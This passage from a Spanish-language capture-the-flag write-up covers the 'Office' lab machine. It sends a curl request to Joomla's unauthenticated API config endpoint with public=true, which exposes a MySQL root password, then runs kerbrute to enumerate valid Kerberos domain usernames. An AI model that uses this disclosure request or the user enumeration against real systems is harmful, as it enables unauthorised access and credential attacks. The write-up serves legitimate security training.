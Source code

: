 Como mencioné, con solamente hacer una petición al endpoint con este parámetro ya podremos ver cosas

```bash
❯ curl -v http://10.10.11.3/api/index.php/v1/config/application\?public\=true
*   Trying 10.10.11.3:80...
* Connected to 10.10.11.3 (10.10.11.3) port 80
> GET /api/index.php/v1/config/application?public=true HTTP/1.1
> Host: 10.10.11.3
> User-Agent: curl/8.7.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Wed, 26 Jun 2024 02:16:28 GMT
< Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
< X-Powered-By: JoomlaAPI/1.0
< x-frame-options: SAMEORIGIN
< referrer-policy: strict-origin-when-cross-origin
< cross-origin-opener-policy: same-origin
< Expires: Wed, 17 Aug 2005 00:00:00 GMT
< Last-Modified: Wed, 26 Jun 2024 02:16:28 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Content-Length: 2007
< Content-Type: application/vnd.api+json; charset=utf-8
< 
{"links":{"self":"http:\/\/10.10.11.3\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/10.10.11.3\/api\/index.php\/v1\/config\/application? ... [snip]
```

Entre estos datos JSON, están los ajustes de la base de datos. Es un MySQL y las credenciales de conexión son `root:H0lOgrams4reTakIng0Ver754!`.

Vale, tenemos una contraseña, pero... aún no sabemos en que usuario podemos probarla, porque en el blog no parece haber nada interesante, por lo que nos va a tocar hacer fuerza bruta con esta credencial. Podemos utilizar kerbrute para buscar usuarios válidos por Kerberos:

```bash
❯ kerbrute userenum --dc 10.10.11.3 -d office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 06/25/24 - Ronnie Flathers @ropnop

2024/06/25 14:21:12 >  Using KDC(s):
2024/06/25 14:21:12 >  	10.10.11.3:88

2024/06/25 14:23:11 >  [+] VALID USERNAME:	administrator@office.htb

2024/06/25 14:33:17 >  [+] VALID USERNAME:	Administrator@office.htb
2024/06/25 14:38:36 >  [+] VALID USERNAME:	ewhite@office.htb
2024/06/25 14:38:36 >  [+] VALID USERNAME:	etower@office.htb
2024/06/25 14:38:37 >  [+] VALID USERNAME:	dwolfe@office.htb
2024/06/25 14:38:38 >  [+] VALID USERNAME:	dlanor@office.htb
2024/06/25 14:38:38 >  [+] VALID USERNAME:	dmichael@office.htb
```

